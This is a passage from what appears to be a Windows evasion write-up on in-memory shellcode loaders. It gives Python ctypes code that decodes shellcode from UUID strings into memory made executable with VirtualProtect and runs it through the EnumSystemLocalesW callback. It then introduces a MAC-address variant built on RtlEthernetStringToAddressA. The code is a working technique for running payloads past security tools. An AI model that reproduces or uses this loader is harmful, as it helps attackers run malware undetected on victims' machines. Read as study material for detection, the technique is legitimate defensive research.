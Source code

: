 ```python
ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

ptr = ptr_realloc
for code in uuid_shellcode:
    ctypes.windll.Rpcrt4.UuidFromStringA(code, ptr)
    ptr += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc, 0)
```

![](img/7.png)

### MAC memory loading

​ The above uses the use of `UUID` to write `shellcode` into memory by calling the `API` function. Using the same idea, if a certain `API` function can be found to implement some reversible deformation and finally written to a binary pointer, then memory loading can also be implemented. Here we find the `RtlEthernetAddressToStringA` function and the `RtlEthernetStringToAddressA` function.

- `RtlEthernetAddressToString`: `RtlEthernetAddressToString` function converts a binary Ethernet address into a string representation of the Ethernet `MAC` address.

```c++
NTSYSAPI PSTR RtlEthernetAddressToStringA(
  [in] const DL_EUI48 *Addr,
  [out] PSTR S
);
```
